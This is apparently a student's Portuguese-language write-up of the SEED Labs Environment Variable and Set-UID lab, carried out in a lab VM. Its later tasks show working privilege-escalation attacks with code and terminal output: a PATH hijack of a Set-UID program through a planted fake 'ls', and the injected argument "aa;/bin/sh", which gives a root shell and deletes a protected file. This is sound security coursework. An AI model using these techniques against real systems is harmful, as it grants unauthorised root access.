








# SEED Labs – Environment Variable and Set-UID Program Lab

## Task 1: Manipulating Environment Variables

Nesta tarefa observamos o comportamento das funções `printenv` e `env` - imprimem todas as variáveis de ambiente do sistema.



Comando `printenv PWD` que imprime o nome do diretório local.


Manipulamo-las, adicionando e eliminando variáveis, através dos comandos `export` e `unset`, respetivamente. Alterou-se a varivável `USER` com o comando `export USER=lucas`. Variável antes:



Variável após:



Eliminou-se com o comando `unset USER`.




## Task 2: Passing Environment Variables from Parent Process to Child Process




O código em `myprintenv.c` imprime a lista das variáveis de ambiente do child process e o output foi guardado no ficheiro `file`. Depois das alterações sugeridas, a lista das variáveis de ambiente do parent process foi guardada no ficheiro `file2`.

Concluímos que os child processes **herdam** as variáveis de ambiente dos parent processes. O comando `diff` não teve qualquer output, o que significa que as variáveis de ambiente são as mesmas (ficheiros resultantes do output são iguais para ambos os processos).

## Task 3: Environment Variables and execve()

Na primeira compilação, quando o 3º parâmetro (`envp[]`) da função `execve` é **NULL**, não passamos ao novo programa (que vai correr dentro do processo atual) nenhuma variável de ambiente, não resultando qualquer output do programa `myenv.c`. Concluímos então que o novo programa não herda automaticamente as variáveis de ambiente e estas devem ser passadas através do 3º argumento (`envp[]`), como é especificado na entrada do manual (`man execve`).

Na 2ª compilação podemos confirmar que as variáveis de ambiente foram passadas do programa inicial para o novo programa, ao chamar `execve("usr/bin/env", arg, environ)`.

## Task 4: Environment Variables and system()

Criamos um ficheiro `teste_system.c` com o codigo fornecido.



Ao compilar e correr este é o resultado:



Com isso podemos concluir que o programa executado via system() imprimirá as variáveis de ambiente do processo chamador, demonstrando que as variáveis de ambiente são propagadas automaticamente quando você usa a função system(). Assim como quando você usa a função execve() com o ambiente passado explicitamente, mas na funcao system() o ambiente é passado implicitamente.

## Task 5: Environment Variable and Set-UID Programs

```bash
[10/16/24]seed@VM:~/.../Labsetup$ a.out > file
[10/16/24]seed@VM:~/.../Labsetup$ export PATH=/bin
[10/16/24]seed@VM:~/.../Labsetup$ export LD_LIBRARY_PATH=teste
[10/16/24]seed@VM:~/.../Labsetup$ export ANY_NAME=teste
[10/16/24]seed@VM:~/.../Labsetup$ ./a.out > file2
[10/16/24]seed@VM:~/.../Labsetup$ diff file file2
7a8
> ANY_NAME=teste
44c45
< PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:.
---
> PATH=/bin
[10/16/24]seed@VM:~/.../Labsetup$ printenv LD_LIBRARY_PATH
teste
```

Verificámos que as variáveis de ambiente **PATH** e **ANY_NAME** foram passadas ao Set-UID child process ao contrário da **LD_LIBRARY_PATH**. Podemos concluir que algumas variáveis de ambiente são ignoradas pelo dynamic linker ao correr um programa Set-UID com o proprietário root. **LD_LIBRARY_PATH** indica ao dynamic linker onde procurar shared libraries que o programa faz referência.


## Task 6: The PATH Environment Variable and Set-UID Programs

Alterando a variável de ambiente **PATH** como sugerido e como o programa Set-UID executa comandos que utilizam o caminho relativo, o nosso programa `ls` em `/home/seed/Environment_Variable_and_SetUID/Labsetup` irá ser executado em vez do suposto `/bin/ls/`.

run_ls.c
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main(){
    system("/usr/bin/whoami");
    system("ls");
    return 0;
}
```

ls.c
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main(){
    printf("Malicious code.\n");
    system("/usr/bin/whoami");
    return 0;
}
```

```bash
[10/16/24]seed@VM:~/.../Labsetup$ export PATH=/home/seed/Environment_Variable_and_SetUID/Labsetup:$PATH
[10/16/24]seed@VM:~/.../Labsetup$ gcc run_ls.c -o run_ls
[10/16/24]seed@VM:~/.../Labsetup$ sudo chown root run_ls
[10/16/24]seed@VM:~/.../Labsetup$ sudo chmod 4755 run_ls
[10/16/24]seed@VM:~/.../Labsetup$ run_ls
seed
cap_leak.c  catall.c  ls.c  myenv.c  myprintenv.c  run_ls  run_ls.c
[10/16/24]seed@VM:~/.../Labsetup$ gcc ls.c -o ls
[10/16/24]seed@VM:~/.../Labsetup$ run_ls
seed
Malicious code.
seed
``` 

Como se pode ver, conseguimos executar um programa escrito por nós no lugar do comando `ls`. Ao observar o valor devolvido pelo comando `whoami` percebemos que o nosso programa `ls` não tem privilégios root (utilizador atual é seed). Nesta máquina virtual, `bin/sh` é um link simbólico para `bin/dash`, e este programa põe em prática uma medida de segurança que não permite que o mesmo seja corrido como um processo Set-UID, mitigando neste caso a vulnerabilidade que encontramos. No entanto, ao criar um link /bin/sh para /bin/zsh (comando `$ sudo ln -sf /bin/zsh /bin/sh`), onde essa medida de segurança não existe, o nosso programa `ls` tem privilégios root.

```bash
[10/16/24]seed@VM:~/.../Labsetup$ sudo ln -sf /bin/zsh /bin/sh
[10/16/24]seed@VM:~/.../Labsetup$ run_ls
root
Malicious code.
root
```

## Task 8: Invoking External Programs Using system() versus execve()

### Step 1

Tendo em conta o funcionamento da função `system()`, que foi visto na task 4 - "system() actually executes "/bin/sh -c command", i.e, it executes /bin/sh, and asks the shell to execute the command" e que é possível correr na shell 2 comandos numa linha, separando os mesmos através do ponto e vírgula `;`, será possível abusar do executável correspondente ao ficheiro catall.c - `catall`. 

```bash
[10/17/24]seed@VM:~/.../Labsetup$ gcc -o catall catall.c 
[10/17/24]seed@VM:~/.../Labsetup$ sudo chown root catall
[10/17/24]seed@VM:~/.../Labsetup$ sudo chmod 4755 catall
[10/17/24]seed@VM:~/.../Labsetup$ ls -l catall
-rwsr-xr-x 1 root seed 16928 Oct 17 10:21 catall
[10/17/24]seed@VM:~/.../Labsetup$ catall "aa;/bin/sh"
/bin/cat: aa: No such file or directory
#
# id
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
# whoami
root
```

Para concretizar este ataque devemos dar como input ao programa catall, por exemplo, a string `"aa;/bin/sh"`, **com as aspas**, pois só assim `/bin/sh` irá ser executado dentro do programa catall. Na prática, a shell irá correr 2 comandos: `/bin/cat aa` e `/bin/sh`. Uma vez que `aa` é um nome de um ficheiro aleatório (que no caso não existe), irá ocorrer o erro "No such file or directory", mas não é relevante porque o ataque será bem sucedido, isto é, conseguiu-se uma `root shell`, tal como se confirma através do carácter `#`. Outra forma de confirmar isto para além do comando `whoami`, será utilizar o comando `id` e é possível ver `euid=0(root)` (effective user ID). Assim, conseguimos apagar o ficheiro anteriormente criado (que não podia ser lido pelo utilizador default `seed`), sem alterar o código C dado, utilizando o comando `rm`.

```bash
# rm superImportantFile 
```


Tal como na task 6, este ataque só é possível alterando o comando /bin/sh para apontar para /bin/zsh como pedido no guião, caso contrário só iríamos conseguir uma shell "normal".

